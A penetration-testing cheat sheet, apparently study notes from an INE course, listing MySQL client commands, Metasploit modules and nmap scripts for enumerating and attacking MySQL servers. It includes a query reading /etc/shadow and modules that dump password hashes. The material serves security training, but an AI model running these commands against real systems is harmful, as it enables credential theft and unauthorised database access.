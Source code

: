 # SQL

## mysql
```
mysql -h [IP-ADDRESS] -u [USERNAME]
```
```
show databases;
```
```
use [DATABASE];
```
```
show [TABLES];
```
```
select count(*) from [TABLE];
```
```
select * from [TABLE];
```
```
select load_file("/etc/shadow");
```
```
help
```

## Metasploit
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```
```
use auxiliary/scanner/mysql/mysql_hashdump
```
show advanced options:
```
advanced
```

## nmap
* --script=mysql-empty-password
* --script=mysql-info
* --script=mysql-users --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-databases --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-variables --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-dump-hashes --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-query --script-args="query='select * from [TABLE];',username='[USERNAME]',password='[PASSWORD]'"
* --script=mysql-audit --script-args="mysql-audit.username='[USERNAME]',mysql-audit.password='[PASSWORD]',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
